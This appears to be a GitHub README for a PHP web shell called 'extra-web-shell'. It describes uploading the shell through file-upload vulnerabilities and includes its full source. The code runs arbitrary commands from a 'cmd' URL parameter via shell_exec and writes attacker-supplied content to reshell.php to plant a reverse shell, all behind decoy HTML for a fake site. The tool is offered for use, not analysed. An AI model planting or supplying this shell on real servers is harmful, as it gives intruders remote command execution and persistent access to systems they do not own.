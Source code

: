 # extra-web-shell

## what is this?
#### this is a simple web shell, contains both, bind and option of upload a reverse shell

## how can this help me?
#### well, sometimes when you find a file upload vulnerability, you will find that you can't bypass the extension eaisy, for example you have to try many extesions methods such as, php, php5, jpg.php ... this extra web shell, will help you to upload any kind of files start from php, txt ...etc

## bind shell section
#### this part of the tool, you can execute any command on the server without any problem, and the output will be visible in the output border

## creat file or reverse shell section
#### here you can upload any file just copy the content of this file and the output will gives you the link of it to acssess
#### you can edit the name and the extension in the source code from "reshell.php" to what you like
```
<?php
	if(isset($_GET['cmd']))
	{
	    $output = shell_exec($_GET['cmd']);
	}
	elseif (isset($_GET['payload'])) {
		file_put_contents("reshell.php", $_GET['payload']);
		$path = "reshell.php";
	}
?>
<!DOCTYPE html>
<html>
<head>
	<title>Pwn Me</title>
    <link rel="stylesheet" type="text/css" href="css/home.css">
</head>
<body>
    <ul>
        <li style="float: left;"><a href="administrator/login.php">login</a></li>
        <li><a href="pics.php">pictures</a></li>
        <li><a href="posts.php">posts</a></li>
        <li><a href="#">Home</a></li>
    </ul>
    <div class="home">
        <h1>welcome into space box</h1>
    </div>
</body>
</html>
</body>
</html>
```

## LICENCE
[MIT](https://github.com/hamza07-w/extra-web-shell/blob/main/LICENSE)
